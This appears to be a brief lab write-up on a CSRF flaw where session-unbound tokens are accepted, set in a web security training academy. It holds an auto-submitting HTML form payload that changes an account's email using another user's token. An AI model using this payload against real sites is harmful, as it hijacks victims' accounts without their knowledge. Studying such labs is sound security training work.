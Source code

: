 # CSRF Vulnerability


![****](/CSRF/Screenshots/cssrf4-1.PNG)

![****](/CSRF/Screenshots/cssrf4-2.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
	<input required type="hidden" name="csrf" value="kDsuUM8eQZirZ12sWwS4BkMtluaPUT2E">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.
- Use your account token and check if any changes can be submitted!